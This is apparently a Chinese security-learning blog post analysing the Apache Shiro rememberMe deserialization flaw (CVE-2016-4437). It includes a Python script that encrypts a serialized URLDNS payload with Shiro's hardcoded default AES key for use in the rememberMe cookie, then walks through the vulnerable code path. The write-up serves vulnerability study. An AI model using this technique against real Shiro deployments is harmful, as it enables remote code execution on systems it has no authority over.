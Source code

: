 ```yaml
---
layout:     post
title:      "Shiro反序列化漏洞学习"
subtitle:   ""
date:       2021-06-11 20:13:14
author:     "kuron3k0"
header-img: "img/post-bg-2015.jpg"
tags:
    - Java
---
```


前面把shiro近期的权限绕过漏洞过了一下，现在把反序列化的也搞一搞

## CVE-2016-4437(ver < 1.2.5)
对比1.2.4和1.2.5代码的区别，把默认的AES加密秘钥删掉了
![](/img/in-post/shiro-deserialize/1.png)

这里用urldns来反序列化，用默认的秘钥加密一下
```python
from Crypto.Cipher import AES
import base64
from Crypto import Random

BS = 16
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS)
unpad = lambda s : s[0:-ord(s[-1])]

class AESCipher:
    def __init__( self, key ):
        """
        Requires hex encoded param as a key
        """
        self.key = key

    def encrypt( self, raw ):
        """
        Returns hex encoded encrypted value!
        """
        raw = pad(raw)
        iv = Random.new().read(AES.block_size);
        cipher = AES.new( self.key, AES.MODE_CBC, iv )
        return base64.b64encode( iv + cipher.encrypt( raw ) )

    def decrypt( self, enc ):
        """
        Requires hex encoded param to decrypt
        """
        enc = enc.decode("hex")
        iv = enc[:16]
        enc= enc[16:]
        cipher = AES.new(self.key, AES.MODE_CBC, iv )
        return unpad(cipher.decrypt( enc))

if __name__== "__main__":
    key = base64.b64decode('kPH+bIxk5D2deZiIxcaaaA==')
    with open('shiro_urldns','rb') as f:
        s=f.read()
    encryptor = AESCipher(key)
    plaintext = encryptor.encrypt(s)
    print("%s" % plaintext)

```

放到rememberMe的cookie中
![](/img/in-post/shiro-deserialize/3.png)

反序列化成功
![](/img/in-post/shiro-deserialize/2.png)

过程挺简单，先是从AbstractShiroFilter开始，调用createSubject函数创建Subject
![](/img/in-post/shiro-deserialize/4.png)

后面会到CookieRememberMeManager，base64解码
![](/img/in-post/shiro-deserialize/6.png)

cookie名在初始化的时候指定为rememberMe
![](/img/in-post/shiro-deserialize/5.png)

用默认秘钥进行AES解密
![](/img/in-post/shiro-deserialize/7.png)

最后readObject反序列化
![](/img/in-post/shiro-deserialize/8.png)


## CVE-2019-12422(ver < 1.4.2)


## 参考
[https://github.com/apache/shiro/compare/shiro-root-1.2.4%E2%80%A6shiro-root-1.2.5](https://github.com/apache/shiro/compare/shiro-root-1.2.4%E2%80%A6shiro-root-1.2.5)
[https://github.com/apache/shiro/commit/a8018783373ff5e5210225069c9919e071597d5e](https://github.com/apache/shiro/commit/a8018783373ff5e5210225069c9919e071597d5e)